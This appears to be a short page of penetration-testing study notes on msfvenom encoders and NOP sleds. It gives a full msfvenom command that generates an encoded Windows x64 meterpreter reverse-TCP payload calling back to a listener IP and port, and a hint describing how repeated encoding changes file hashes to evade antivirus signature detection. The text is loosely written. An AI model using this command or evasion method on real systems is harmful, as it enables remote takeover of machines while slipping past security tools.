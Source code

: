 ### Encoders The Encapsulator

> It Encoders the malicious piece of code and it depends on architecture means if it has x64 then use the encoders of x64

```
#Msfvenom -L encoders
#-e x64/xor
#-I <number> for interation means using the encoding multiply times
```

* Before encoders  & After encoders diffeswebsite
* The  only different is in malicious pieces of code.

<figure><img src="../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.130 lport=5555 -f psh -e x64/xor_context -i 5
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
```

{% hint style="info" %}
The hash of the malicious code changes using encoders and website like virustotal check every antivirus database using the hash of that file is there or nor if they found then its marks as a redflag.

If not found then is called as bypass signature detection.
{% endhint %}

### NOPS
